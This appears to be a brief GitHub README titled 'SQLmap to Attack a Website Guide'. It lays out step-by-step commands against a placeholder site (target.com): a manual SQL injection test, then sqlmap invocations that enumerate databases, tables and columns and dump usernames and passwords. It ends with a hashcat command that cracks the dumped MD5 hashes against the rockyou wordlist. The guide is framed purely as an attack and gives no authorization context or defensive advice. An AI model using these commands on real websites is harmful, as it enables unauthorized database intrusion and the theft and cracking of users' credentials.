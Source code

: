 # SQLmap-to-Attack-a-Website
SQLmap to Attack a Website Guide


|Identify a Vulnerable Website|

 http://target.com/index.php?id=1
  ~ manually test for SQL injection
    http://target.com/index.php?id=1'
    
|Run SQLmap to Detect SQL Injection|

  sqlmap -u "http://target.com/index.php?id=1" --dbs

|Extract Tables from a Database|

  sqlmap -u "http://target.com/index.php?id=1" -D users_db --tables

|Extract Columns from a Table|

  sqlmap -u "http://target.com/index.php?id=1" -D users_db -T users --columns

|Dump Data (Usernames and Passwords)|

  sqlmap -u "http://target.com/index.php?id=1" -D users_db -T users -C username,password --dump

|Crack Hashed Passwords |

  hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt

